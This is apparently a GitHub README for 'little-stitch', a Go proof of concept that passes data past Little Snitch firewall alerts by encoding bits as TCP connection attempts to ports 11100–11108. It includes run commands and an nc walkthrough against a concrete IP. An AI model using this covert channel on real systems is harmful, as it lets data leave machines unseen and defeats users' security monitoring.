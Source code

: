 # little-stitch
Send and receive bypassing Little Snitch alerting.


## Stitch Face

Stitch face, the little stitch mascot.

![Stitch Face, the Little Stitch mascot](https://i.ytimg.com/vi/Oq5u07Rs9Ac/maxresdefault.jpg)

## Usage

### Setup

Make sure a recent version of GoLang is installed and set up (tested with 1.17.2). The usage instructions below
assume the current working directory is the root of this repository.

### Server

Currently this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | go run ./main.go -- server
```


### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | go run ./main.go -- client <server ip address>
```


## How it works

Because Little Snitch only alerts when data is actually sent across the connection, we can avoid triggering an
alert by encoding data we want to transfer into other attributes of the TCP connection. There are several
attributes of a TCP connection that can be set by an unprivileged user, but the most straight forward is
the destination port number.

For sending data to the server we use ports 11101-11108 to represent the bit positions in a byte of data.
Opening a connection to ports 11101 would signify the least significant bit should be set and likewise
11108, the most significant byte. A connection to port 11100 is then opened when all the correct bits for
the current byte have been set on the server, signaling the server can print it to stdout and reinitialize
the current byte.

We can run through this manually by just running the server side of the connection and using `nc` to
manually poke the bits.

```
go run ./main.go -- server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (LSB ordering) bits 1 and 7 are
set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100 to flush the byte
to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ go run main.go server
A
```

To send data the other direction, it would be difficult to reach the client directly from the server as most clients will be on a network using NAT to limit access to the client IP. So instead of poking the ports we want to set for data going the other way, we instead only open the ports that corespond to the set bits of the current byte. The client can then iterate over all the ports, recording whether they where opened or closed. This is a bit slower since the client has more ports overall to check and because the server and the client need to remain in sync, the client can't start til the opened/closed ports are updated, and the server can't clear the ports until the client has iterated over them.
